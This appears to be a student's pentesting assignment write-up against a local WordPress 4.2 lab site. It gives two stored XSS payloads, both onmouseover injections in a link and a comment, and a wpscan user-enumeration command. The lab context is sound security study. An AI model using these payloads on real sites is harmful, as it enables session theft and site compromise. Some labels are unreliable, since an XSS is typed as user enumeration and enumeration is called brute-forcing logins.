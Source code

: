 # Assignment 7-Pentesting
1. Wordpress: XSS(Authenticated)
   - Summary
      - Vulnerability type: Authenticated Cross site scripting
      - WP version: 4.2
      - HTML line: <a href="[caption code="]></a><a title=" onmouseover=alert('xss testing') ">title=" onmouseover=alert('xss testing')>link</a>
      - Steps: 
           - Wrote the above html code to post a link in a page with admin privilege
           - Saved it and the link is posted on the admin's page
           - Admin hovers on the link posted and the exploit is triggered
   - Gif walkthrough
         
 ![alt-text](xss.gif)
 
 2. Wordpress: XSS(unauthorized)
    - Summary
         - Vulnerability type: user enumeration
         - WP version: 4.2
         - HTML line: <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px></a>
         - Steps: 
             - Wrote the above html code in comment for a post
             - A user views the comment and hovers on the link, the exploit is soon triggered
           
 ![alt-text](xss(unauthorized).gif)
 
 3. Kali WPscan
    - Summary
       - Vulnerability type: User Enumeration
       - Kali command: wpscan --url http://wpdistillery.vm --enumerate u
       - The above command on kali will brute force the user login information
       
 ![alt-text](user_enumeration.gif)
